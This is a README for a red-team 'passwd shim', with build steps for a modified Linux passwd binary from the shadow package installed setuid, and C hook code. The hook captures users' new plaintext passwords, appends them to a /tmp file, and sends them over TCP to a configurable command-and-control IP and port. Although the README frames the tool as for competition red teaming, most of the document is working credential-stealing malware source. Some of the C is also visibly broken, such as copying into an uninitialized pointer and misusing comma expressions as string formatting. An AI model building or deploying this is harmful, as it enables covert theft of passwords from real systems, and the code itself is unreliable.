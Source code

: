 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a C2. It will also write to a file in the /tmp directory as a failover method. 

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

    #include <sys/socket.h> 
    #include <arpa/inet.h> 
    #include <unistd.h> 
    #include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

    int writetofile (char *password){

        // Get UID
        uid_t uid = geteuid();
        struct passwd * pw = getpwuid(uid);
        
        // Create File + Variables
        FILE * fptr;
        fptr = fopen("/tmp/18432443.tmp", "a"); // Remove for ultra sneak
        char * user;
        char * msg;
        char * msg2;
        char * colon;

        // Write Shit
        if (pw) {
            user = pw->pw_name;
        }
        else {
            user = "unknown";
        }

        if (fptr != NULL) {

            fprintf(fptr, "%s:%s\n", name, password);
            
            // Send Shit //
            // Make Socket
            int sock = 0, valread;
            struct sockaddr_in serv_addr;
            
            // Build String
            strcpy(user, name);
            msg = ("%s", password);
            msg2 = ("%s:", user);
            colon = ':';
            strncat(msg2, &colon, 1);
            strcat(msg2, msg);

            char buffer[1024] = {0};
            fclose(fptr);

            // Error Handling
            if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
                // printf("\n Socket creation error \n");
                return -1;
            }

            serv_addr.sin_family = AF_INET;
            serv_addr.sin_port = htons(PORT);
            
            struct timeval timeout;
            timeout.tv_sec = 3;
            timeout.tv_usec = 0;

            if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
                // puts("Setsockopt failed\n");
                return -1;
            }
            
            if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
                // puts("setsockopt failed\n");
            }


            // Error Handling
            if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
                // puts("\nInvalid address/ Address not supported \n");
                return -1;
            }
            if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
                return -1;
            }

            // Send Message
            send(sock , msg2 , strlen(msg2) , 0 );
            return 0;
        }

        return 0;
    }
